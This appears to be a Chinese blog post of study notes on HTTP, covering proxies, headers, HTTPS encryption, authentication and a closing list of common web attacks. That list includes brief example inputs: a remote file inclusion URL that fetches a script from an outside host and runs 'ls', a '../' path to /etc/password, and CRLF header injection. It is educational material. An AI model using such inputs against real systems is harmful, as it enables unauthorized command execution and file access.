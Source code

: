 ```yaml
---
layout: post
title: 图解HTTP
date: 2021-12-02
tags: 计算机基础
---
```

<!-- ### 电子书链接
[图解HTTP](/downloads/图解HTTP.pdf) <br/> -->

### 通信数据转发程序
#### 1.代理
- 代理：代理服务器的基本行为是接收客户端的请求后转发给其他服务器，不改变URI。
- 缓存代理: 代理转发时,缓存代理会预先将资源的副本(缓存)保存在代理服务器上。当代理再次接到相同资源的请求时，就可以不从资源服务器那里获取资源，而是将之前的缓存资源作为响应返回。
- 透明代理：转发请求或响应时，不对报文做任何加工的代理类型成为透明代理，反之成为非透明代理。

### 2.网关
- 网关：网关与代理非常类似，但是能将客户端的http请求转化为其他协议与线路上的服务器通信。利用网关可以提高安全性，因为可以在客户端与网关之间的通信线路上加密。

### 3.隧道
- 隧道：隧道是客户端与服务器之间建立的一条通信线路。隧道本身是透明的，不会解析http请求，会保持原样中转给服务器。隧道会用SSL等加密手段通信，保证远距离通信安全。隧道会在通信双方断开连接时结束。


### 首部Header
- 端到端首部（End-to-end Header）：此类别的首部必须转发给请求/响应的最终接收对象，且必须保存在由缓存生成的响应中。
- 逐跳首部（Hop-by-hop Header）：此类别的首部只对单次转发有效，会因缓存或代理不再转发。必须提供Connection首部字段
> Http1.1仅有8个逐跳首部字段：Connection、Keep-Alive、Proxy-Authenticate、Proxy-Authorization、Trailer、TE、Transfer-Encoding、Upgrade

### HTTPS的混合加密
- https即http在SSL或TSL安全通信线路上进行通信。
- 非对称加密优点是私钥私有，公钥公开，不会在交换密钥的过程中泄露不能公开的密钥（对称加密交换密钥的时候不能保证密钥不泄露）
- 非对称加密缺点是速度慢。
- https先用慢的非对称加密交换对称加密密钥，再用快的对称加密传递http报文，混合使用两种加密，保证了安全和速度。
> 详细步骤：
> 1. 服务器把自己公开密钥登记到数字证书认证机构
> 2. 认证机构用自己的私钥加签，发布公钥证书
> 3. 客户端用认证机构的公钥(浏览器通常内置)验签，证明服务器公钥未被篡改
> 4. 客户端用服务器公钥加密,发送报文
> 5. 服务端用私钥解密报文

- 客户端证书：需付费；用户自行安装；用户知识水平不同，实施困难；一些特殊业务，比如网银登录会使用；略
- 为什么不一直用https？答：因为SSL的加解密会消耗非常多的客户端、服务器硬件资源（CPU、内存），另外也能节省购买证书的开销。

### 身份认证
1. basic认证：使用{用户:密码}格式，base64加密。不安全。
2. digest认证：通过质询-响应防止密码被窃听，但不能防止用户被伪装。使用不便捷，且达不到安全标准。
3. SSL客户端认证：需要客户端安装证书，会有额外开销。
4. 基于表单认证：密码加盐保存；session+cookie认证；bearer token。

### web攻击
1. 输出值转义不完全引发的安全漏洞：
- XSS：例如在浏览器的输出框输入<script>标签，被浏览器解析成script脚本（而非纯文本），执行攻击代码。
- SQL注入：例如在查询输入框写sql，被当作sql语句执行（而非纯文本）。
- OS命令注入：在可调用Shell函数的地方，例如输入框内容拼接进os命令，输入";"加OS命令，攻击者就可以非法调用Shell命令。
- http首部注入攻击：例如在URL后拼接%0D%0A（HTTP报文中的换行符），接其他http首部，比如Set-Cookie设置sessionId，攻击者可以由此在响应中穿插任意首部。
- http响应截断攻击：特殊的首部注入，拼接2个%0D%0A换行符，之后便可伪造响应主体，用户浏览器会显示攻击者伪造的web页面。
- 邮件首部注入攻击：类似，略。
- 目录遍历攻击：攻击者将文件名"abc.log"修改成"../../etc/password"访问本应无权限的文件（未能处理好../)
- 远程文件包含漏洞：（主要在php）http://example.com/folo.php?mod=news.php，改成http://example.com/folo.php?mod=http://hackr.jp/cmd.php&cmd=ls,于是可以通过外部脚本让目标服务器(example.com)运行自己想要的Shell命令

2. 设置或设计上的缺陷引发的安全漏洞
- 强制浏览：例如可以通过url直接访问文件服务器上的图片/文件。
- 不正确的错误信息：例如登录提示用户名是否已注册；数据库异常上抛至页面会透露数据表设计。
- 开放重定向：允许重定向到任意指定URL。用户有可能被诱导到恶意网站。

3. 因会话管理疏忽引发的安全漏洞
- 会话劫持：攻击者用某种手段拿到用户的sessionId伪装成用户，例如利用XSS通过document.cookie窃取用户cookie中的会话ID。
- 会话固定攻击：攻击者从web网站拿到一个会话ID，攻击者准备陷阱强制用户使用这个会话ID认证，在用户完成认证之后，攻击者就能使用这个会话ID访问网站了。
- 跨站点请求伪造CSRF：

4. 其他安全漏洞
- 密码破解、点击劫持、DoS攻击、后门程序
- 点击劫持：用透明按钮/页面覆盖在用户页面上，透明按钮与用户页面按钮重合，诱导用户点击陷阱按钮。




